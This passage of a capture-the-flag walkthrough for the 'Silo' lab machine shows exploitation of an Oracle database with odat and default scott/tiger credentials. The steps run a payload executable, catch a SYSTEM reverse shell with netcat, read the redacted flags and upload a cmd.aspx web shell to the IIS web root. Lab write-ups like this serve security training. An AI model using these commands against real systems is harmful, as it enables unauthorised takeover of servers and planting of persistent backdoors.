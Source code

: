 Finally, we will use the externaltables module to execute the shell.exe at the c:/windows/temp directory.

```
┌──(kali㉿kali)-[~/Desktop/silo]
└─$ sudo odat externaltable -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --exec c:/windows/temp shell.exe

[1] (10.10.10.82:1521): Execute the shell.exe command stored in the c:/windows/temp path
```

This will then give us a reverse shell with SYSTEM privileges

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4000 
listening on [any] 4000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.82] 49165
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\oraclexe\app\oracle\product\11.2.0\server\DATABASE>whoami
whoami
nt authority\system
```
### Obtaining user flag

```
C:\Users\Phineas\Desktop>type user.txt
type user.txt
<Redacted User Flag>
```
### Obtaining root flag
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
```

## Post-Exploitation
### Web Shell
Recalling from out nmap output that there is an open http port on port 80, we can also exploit by uploading a web shell to the C:/inetpub/wwwroot which is the web path for Windows server. 

To do so, we can use odat to upload our webshell to the web path.

```
┌──(kali㉿kali)-[~/Desktop/silo]
└─$ sudo odat utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile c:\\inetpub\\wwwroot cmd.aspx `pwd`/cmd.aspx

[1] (10.10.10.82:1521): Put the /home/kali/Desktop/silo/cmd.aspx local file in the c:\inetpub\wwwroot folder like cmd.aspx on the 10.10.10.82 server
[+] The /home/kali/Desktop/silo/cmd.aspx file was created on the c:\inetpub\wwwroot directory on the 10.10.10.82 server like the cmd.aspx file
```
